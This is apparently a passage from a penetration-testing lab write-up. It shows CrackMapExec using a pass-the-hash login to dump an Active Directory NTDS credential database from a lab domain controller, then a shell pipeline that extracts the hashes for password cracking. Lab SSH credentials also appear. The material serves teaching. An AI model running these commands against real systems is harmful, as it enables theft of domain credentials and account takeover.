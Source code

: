 ![Bash Input][BashInput]
```bash
python3.8 cme smb 10.10.98.10 -u itadmin -H b81fc6f13bee9a3bf900955cb0384900 --ntds > domain-NTDS
head domain-NTDS -n 4
```
![Bash Output][BashOutput]

| ![](images/L1550-11.png) |
|----------|

**Attack Analysis**: CrackMapExec was used to identify a Local Administrator on WS01 (itadmin) that allowed the enumeration of hashes from WS01.  The enumeration included a credential hash for user LABS\itadmin.  CrackMapExec was then used to confirm ITAdmin was a privileged user of DC01 and the Active Directory Domain.  The LABS/ITAdmin credential hash was then used on DC01 to download credential hashes for all user accounts on the Active Directory domain with CrackMapExec’s ntds module.

Continue to the next step of the lab to prepare the credential hashes for password cracking.

![][NextStep]

![][Div1]

![Step Five][AttackStepSix]
## Prepare Hashes For Password Cracking
In the previous lab section, a third SSH Console Session was initiated.  This portion of the lab can utilize that same session.
For reference, the connection information is presented below.  For more information, see Lab L0330.

```plaintext
SSH: aptclass@10.10.98.20
Password: APTClass!
```

**Console Session 2 (CrackMapExec)**

If continuing from the previous lab section, use the existing Console Session 2.  
The previous lab section enumerated an Active Directory’s NTDS database which disclosed domain user account credential hashes.  To inspect the credential hashes and prepare them for password cracking, some text manipulation commands are necessary.  Below is a pipe sequence that reads the tool output and manipulates the contents. Before executing this command, read the explanation of the pipe sequence. 

![Bash Input][BashInput]
```bash
cat domain-NTDS | grep aad3b4 | grep -Fv '+' | grep -Fv '$' | tr -s " " | cut -d" " -f5 > cme-domain-Hashes
```

An explanation of the pipe sequence is provided below:
```plaintext
cat domain-NTDS        # Read the tool output file, domain-NTDS file.            ##INPUT FILE ##
grep aad3b4            # Return only rows containing aad3b4 because this helps trim the garbage from the tool’s output – only rows with hashes are returned. 
grep -Fv '+'           # Remove from return some unnecessary tool output 
grep -Fv ‘$’           # Remove from return computer/hidden accounts *$
tr -s “ ”              # Trim whitespace within output
cut -d “ ” -f 5        # Cut the output as a space delimited table and select only field (column) 5 (the username and hash field).
> cme-domain-Hashes    # Write the results to file cme-domain-Hashes.            ##OUTPUT FILE##
```

  [L0200]: ../L0200/
  [L0250]: ../L0250/
  [L0310]: ../L0310/
  [L0311]: ../L0311/
  [L0320]: ../L0320/
  [L0330]: ../L0330/
  [L0340]: ../L0340/
  [L0350]: ../L0350/
  [L1120]: ../L1120/
  [L1130]: ../L1130/
  [L1140]: ../L1140/